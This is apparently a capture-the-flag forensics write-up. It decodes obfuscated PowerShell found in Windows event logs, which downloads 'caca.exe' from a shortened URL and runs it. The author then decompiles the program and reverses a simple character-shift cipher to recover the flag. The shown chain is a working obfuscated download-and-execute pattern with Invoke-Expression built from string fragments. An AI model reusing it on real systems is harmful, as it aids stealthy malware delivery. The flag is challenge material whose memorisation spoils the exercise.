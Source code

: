 <img src=".images/he_did_what.png">

In the `.evtx` file, I discovered very few PowerShell events which seemed obfuscated and suspicious. Putting the commands together results in:

```shell
.\caca.exe "VHEEVH}x3uwcnad6u3eac3pvaj6tf"
$uqR = "i"+"N"+"V"+"o"+"k"+"e"+"-"+"E"+"X"+"p"+"r"+"E"+"S"+"S"+"i"+"O"+"n" ; NEW-aLIaS -naME pWN -VaLuE $uqR -FORCe ; PWN $SCr ;
$SCr = [SyStem.TexT.encODINg]::uTF8.GeTsTrInG([SYSteM.coNVErT]::froMBaSe64STrinG("$w9r4pBoZlnfIzH1keCtX")) ;
$w9r4pBoZlnfIzH1keCtX = $FBtFFDr8NXp5.ToCharArray() ; [array]::Reverse($w9r4pBoZlnfIzH1keCtX) ; -join $w9r4pBoZlnfIzH1keCtX 2>&1> $null ;
$FBtFFDr8NXp5 = "=oQDiUGel5SYjF2YiASZslmR0V3TtASKpkiI90zZhFDbuJGc5MEZoVzQilnVIRWe5cUY6lTeMZTTINGMShUYigyZulmc0NFN2U2chJUbvJnR6oTX0JXZ252bD5SblR3c5N1WocmbpJHdTRXZH5COGRVV6oTXn5Wak92YuVkL0hXZU5SblR3c5N1WoASayVVLgQ3clVXclJlYldVLlt2b25WS";
```
To decode the value of `$FBtFFDr8NXp5`, I first reversed the string. Then decode it in CyberChef using the `From Base64` function. This will reveal:

```shell
Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("aHR0cHM6Ly9zaG9ydHVybC5hdC9pbnl1ag=="))) -OutFile "caca.exe"
```


Here is again a Base64 string `aHR0cHM6Ly9zaG9ydHVybC5hdC9pbnl1ag==` which after decoding becomes `https://shorturl.at/inyuj` .

Going to the link, you can download the executable used above in the obfuscated code. Running this program or putting it in Ghidra reveals nothing about its functionality. However, assuming it was probably C# I also tried to put the program in `dnSpy`. There I found the following code::

```C#
public static void td4306d885b1c98544112b830f9bd97c6()
	{
		string str = "";
		string text = "TFCCTF{fake_flag_haha}";
		int num = Strings.Len(text);
		checked
		{
			for (int i = 1; i <= num; i++)
			{
				str += Conversions.ToString(Strings.Chr(Strings.Asc(Strings.Mid(text, i, 1)) + 2));
			}
		}
	}
```

Running it reveals something similar to the parameter found in the event logs: `VHEEVH}x3uwcnad6u3eac3pvaj6tf`, thus I assumed this is some kind of "encryption" so I reversed the logic:

```C#
public static void Main(string[] args)
    {
        string str = "VHEEVH}x3uwcnad6u3eac3pvaj6tf"; 
        string result = "";
        int num = str.Length;
        for (int i = 0; i <num; i++)
        {
            result += ((char)(str[i] - 2)).ToString();
        }
        
        Console.WriteLine(result);
    }
```

`TFCCTF{v1sual_b4s1c_a1nt_h4rd}`
